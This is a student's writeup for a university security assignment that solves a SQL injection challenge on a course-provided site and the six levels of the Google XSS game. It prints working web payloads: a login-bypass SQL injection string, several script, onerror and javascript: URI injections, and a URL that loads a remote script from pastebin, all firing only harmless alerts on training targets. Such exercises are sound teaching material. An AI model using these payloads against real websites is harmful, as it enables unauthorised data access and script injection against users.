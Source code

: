Writeup 10 - Crypto II
=====

Name: *Ben Eisner*
Section: *0201*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: *Ben Eisner*

## Assignment 10 Writeup

### Part 1 (70 Pts)

The first thing that I immediately noticed was the bolded **s**,**q**, and **l** letters in the words *Such a quick, little* in the Part 1 README. Since these letters spell out **sql**, this indicated that this part of the writeup involves something with SQL.

I started by navigating to the provided webpage `http://cornerstoneairlines.co:8080/` and clicking the various links to get a feel for the site. After navigating to the three listed items (*One-Way ticket to any destination*, *Cybersecurity Training Seminar*, *Old wifi router*), I noticed that there was a pattern in the URL.

| Item                              | URL                                          |
|-----------------------------------|----------------------------------------------|
| One-Way ticket to any destination | http://cornerstoneairlines.co:8080/item?id=0 |
| Cybersecurity Training Seminar    | http://cornerstoneairlines.co:8080/item?id=1 |
| Old wifi router                   | http://cornerstoneairlines.co:8080/item?id=2 |

From these links, it's clear that `/?id=#` is used to select different products in the database. I first tried to navigate to additional id's by trying `.../item?id=3`and `.../item?id=4` but I didn't see any flags. After this, I thought it would be a good idea to try some SQL injection to hopefully get a flag.

Fortunately, this writeup came at a convenient time since I had just finished a web security project for another Computer Science course at UMD (CMSC330) that used a lot of SQL.

Based on the info from the slides from the two classes, I thought I should try using SQL injection to 'hack' my way to finding a flag. I tried navigating to the URL with an id equal to `' or '1'='1`.

This webpage took me to a webpage that contained the flag `CMSC38R-{y0U-are_the_5ql_n1nja}`



### Part 2 (30 Pts)


#### Level 1: Hello, world of XSS
This level indicated that there is some vulnerability related to not escaping properly and that you are tasked with making the webpage popup a javascript alert. Since it's only the first level, I figured that all that would be involved is typing in some javascript code in the '*Enter query Here...*' box and pressing search. I typed `<script> alert("Hello"); </script>`, clicked search, then saw a 'Hello' popup that said I can advance to Level 2.  

#### Level 2: Persistence is key

Similar to level 1, this level also wanted you to create a script to pop up a javascript alert. The first thing I tried was the same script I used for Level 1 (`<script> alert("Hello"); </script>`), but that didn't work. I then revealed a hint and saw *This level is sponsored by the letters i, m and g and the attribute onerror*. I googled img onerror and saw that that `onerror = ""`can be used inside an image tag and is called if the image fails to load. I then inputted `<img src="test.png" onerror="alert()"/>`, saw the popup, and was told I can go on to level 3.

#### Level 3: That sinking feeling...

Just like the previous levels, this level also wanted you to execute an attack that results in a javascript popup appearing. One thing that was said in the description is that this level will require you to play around with the url in order to get the alert. I began by copying the code from level 1 and putting it at the end of the url, but that didn't work.

I then decided to look at the source code to better understand how the webpage works. One line that did stick out was `html += "<img src='/static/level3/cloud" + num + ".jpg' />";` since level 2's task was to hack the `<img>` tag. I also noticed that the num variable wasn't satanized at all. So, I added `'onerror='alert()';` to the end of the URL. This resulted in the final URL `https://xss-game.appspot.com/level3/frame#2'onerror='alert()';`. Navigating to this URL showed the javascript popup and let me advance to the next level.

#### Level 4: Context matters

The first thing I did with this level was click the start time button. I noticed that as soon as I pressed the button, the url changed to `https://xss-game.appspot.com/level4/frame?timer=3`. It immediately seemed like I had to do something with the `timer=` part of the URL. I decided to just enter `<script> alert("Hello"); </script>` after the = and see what happens. Unfortunately, it didn't work.

Next, I thought to look at the hints, which told me to try entering just a '. I tried this, but got `SyntaxError: Unexpected EOF` in the console. I then tried entering a ; instead since that's typically used to indicate the end of a line but didn't get anything either.

I then looked at the source code and noticed that the line ` <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />` is what is executing the timer. I needed to find a way to throw in an alert();. I thought to try `3');alert('` which would start the timer, then process the alert. This ended up working since it popped up an alert and told me I could go on to the next level.

#### Level 5: Breaking protocol

The first thing I noticed with level was the URL, specifically `signup?next=confirm`. I looked at the source code and saw that if the form is successfully entered, the `<a href="{{ next }}">Next >></a>`is executed. It would normally take you to the confirm since next=confirm in the normal url, so I tried changing it to `next=alert()` but that didn't work. I then thought it would be a good idea to Google 'add javascript to a href'. I found a page that showed you can use javascript: to execute js code. So, I tried out this URL `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert();`, saw the popup and was able to go to the next level.

#### Level 6: Follow the 🐇

For this final level, we had to find a way to make the application request an external file which will cause it to execute an alert().

I began by making a js file on pastebin. All that's on the pastebin is `alert()` which should hopefully be enough for this final part. I removed `/static/gadget.js` from the URL since that's the location of the gadget and replaced it with `pastebin.com/raw/1tt7Rmew` since that's the location of the external file.

Unfortunately, this didn't work so I decided to look at the source. I saw that there's a bit on regex checking so I added a // to the from of `pastebin.com/raw/1tt7Rmew` to result in the url: `https://xss-game.appspot.com/level6/frame#//pastebin.com/raw/1tt7Rmew`. This ended up working!
